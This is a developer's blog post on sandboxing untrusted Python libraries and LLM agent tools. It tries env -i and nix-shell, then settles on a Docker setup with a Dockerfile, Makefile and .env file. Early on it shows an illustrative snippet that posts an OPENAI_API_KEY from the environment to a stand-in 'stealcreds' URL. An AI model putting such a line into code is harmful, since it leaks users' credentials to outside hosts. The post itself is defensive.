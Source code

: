 ```yaml
---
title: Sandboxed Python Environment
createdAt: 2024-01-21T03:53:12.000Z
updatedAt: 2024-01-21T03:53:12.000Z
publishedAt: 2024-01-21T03:53:12.000Z
tags:
  - language_models
  - python
  - security
  - nix
  - docker
draft: false
githubUrl: 'https://github.com/danielcorin/toys/tree/main/sandboxed_python'
---
```


Disclaimer: I am not a security expert or a security professional.

I've tried out many new AI/LLM libraries in the past year.
Many of these are written in Python.
While trying out new and exciting software is a lot of fun, it's also important to be mindful about what code you allow to run on your system.
Even if code is open source, it's still _possible_ that the cool open source library you installed includes code like

```python
import httpx
import os

httpx.post(
    'https://someoneswebsite.com/stealcreds',
    data={'key': os.environ.get("OPENAI_API_KEY")},
)
```

I strongly recommend vetting any libraries you use, using separate API keys per app and setting a spend cap on OpenAI in case your key is compromised.
However, your `OPENAI_API_KEY` isn't all you need to worry about.
Python code (including dependencies) has access to your entire `os.environ`.
It's somewhat common to set environment variables for the shell to be available system wide.
Zsh has a dedicated file that gets sourced when the shell starts up (`.zshenv`).
So if you hypothetically had `GITHUB_API_TOKEN` set in your environment, some open source library could send that secret to its own server and gain access to your stuff.

Thankfully, over time, open source libraries _usually_ are scrutinized to the degree that this type of credential stealing becomes more difficult to execute or scale.
However, with the advent of agent-like, language-model-based systems, certain libraries are now asking us to allow them to execute system commands on our behalf.
While many of these require user approval, some have automatic approval capabilities, allowing a language model to roam freely among your system.
If you're reading this article, you probably already know this isn't an awesome idea.

## Some trial and error

I tried several approaches to solve this problem before I identified one that seemed to address most of my concerns.
My goal was to find a safe setup that expected code to use a language model to execute code, peek at my environment or poke around the file system.

### Trying out env

My initial inclination was to try and clear out my environment variables to protect against a program trying to steal my secrets.
The `env -i` command can execute a shell command with an empty environment.
Unfortunately, this approach removes too much of what is needed to run Python, so it wasn't viable.

```sh
❯ env -i python run.py
env: python: No such file or directory
```

### Trying out nix

[Nix](https://nixos.org/) seemed like another possible candidate that could manage an independent version of Python and my dependencies
After a bit of searching, I found a way to create a shell with a nix-specified environment using `nix-shell`.
Loosely following instructions from [this article](https://churchman.nl/2019/01/22/using-nix-to-create-python-virtual-environments/), I created a `shell.nix` file with the following contents

```nix
{ nixpkgs ? import <nixpkgs> {}, pythonVersion ? "python3" }:

nixpkgs.mkShell {
  buildInputs = [
    (nixpkgs.${pythonVersion})
    (nixpkgs.python3Packages.numpy)
    (nixpkgs.python3Packages.openai)
  ];

  shellHook = ''
    echo "Welcome to your Python development environment."
  '';
}
```

I ran `nix-shell` from the same directory, which put me in a shell (within my shell) with a specific version of Python and my specified dependencies installed.

```sh
❯ nix-shell
Welcome to your Python development environment.

❯ which python
/nix/store/<...>-python3-3.11.7/bin/python

❯ python
Python 3.11.7 ...
Type "help", "copyright", "credits" or "license" for more information.
>>> import openai
>>> import numpy
>>>
```

Nix worked as advertised, but I realized this approach didn't provide isolation from my environment variables or my system.
Any Python code I ran from the within the nix shell could still read my environment variables or mess with my host file system if it was malicious.

Nix also has the ability to run a `pure` shell, which per the [docs](https://nixos.org/manual/nix/unstable/command-ref/nix-shell.html#options), will clear most of the environment variables.
I tried this out but it quickly became apparent it was too stripped down for what I was looking for.
It also still had host file system access.

```sh
❯ nix-shell --pure
Welcome to your Python development environment.

[nix-shell:~/dev/try/try_wrapper]$ which python
bash: which: command not found
```

## Using Docker

Given the two main constraints

- host environment variable protection
- host file system protection

I moved on to try and find an approach using Docker, which I knew to provide better file system isolation and an independent set of environment variables.
This approach has become the one I use when I want to try out a new library to get a sense of its capabilities while being mindful of my system's privacy.

Here is how it works.
First, I created a new project with the following files and contents

```text
.
├── .env
├── Dockerfile
├── Makefile
├── requirements.txt
└── run.py
```

`.env`

```env
OPENAI_API_KEY=<your key>
# any other variables
```

`Dockerfile`

```Dockerfile
FROM python:slim
WORKDIR /usr/src/app
COPY requirements.txt ./
RUN pip install --no-cache-dir -r requirements.txt
COPY *.py /usr/src/app
CMD ["python", "./run.py"]
```

`run.py`

```python
import os
from openai import OpenAI
from dotenv import load_dotenv

load_dotenv()

OPENAI_API_KEY = os.environ.get("OPENAI_API_KEY")

client = OpenAI(api_key=OPENAI_API_KEY)

stream = client.chat.completions.create(...)
# the rest of the code
```

`requirements.txt`

```text
openai
python-dotenv
# any other libraries you want to install
```

`Makefile`

```make
.PHONY: run
run:
	docker build -t run_script . && docker run -it --env-file .env run_script
```

With this setup, I added my environment variables to `.env`, my dependencies to `requirements.txt`, my code to `run.py` and to run it all, `make run`, which builds and runs the container defined in `Dockerfile`.

It's not the easiest or the cleanest approach for ongoing development of a project, but it provides a reasonable way to sandbox and isolate new code you want to try out that your don't necessarily trust.
I did several hours of research to find an approach I was satisfied with but I suspect there are other good options out there.
I would love to hear from you if you have an approach you like.

You can find the code from this post [here](https://github.com/danielcorin/toys/tree/main/sandboxed_python).
